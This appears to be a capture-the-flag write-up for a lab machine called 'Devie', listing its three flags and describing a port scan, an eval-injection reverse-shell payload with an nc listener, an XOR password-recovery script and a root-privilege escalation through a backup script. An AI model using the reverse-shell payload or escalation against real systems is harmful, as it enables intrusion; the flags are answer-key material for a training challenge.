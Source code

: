 # Devie

A developer has asked you to do a vulnerability check on their system.

<p align="center">
  <img src={require("./assets/devie/icon.png").default} width="128" />
</p>

## Task 1 - What are the flags?

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

THM{X0R_XoR_XOr_xOr}

> What is the root flag?

THM{J0k3r$\_Ar3_W1ld}

## Writeup

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<p align="center">
  <img src={require("./assets/devie/nmap.png").default} />
</p>

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<p align="center">
  <img src={require("./assets/devie/website.png").default} />
</p>

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<p align="center">
  <img src={require("./assets/devie/vuln.png").default} />
</p>

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<p align="center">
  <img src={require("./assets/devie/flag1.png").default} />
</p>

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<p align="center">
  <img src={require("./assets/devie/key.png").default} />
</p>

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<p align="center">
  <img src={require("./assets/devie/flag2.png").default} />
</p>

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```

The final flag is `THM{J0k3r$_Ar3_W1ld}`.
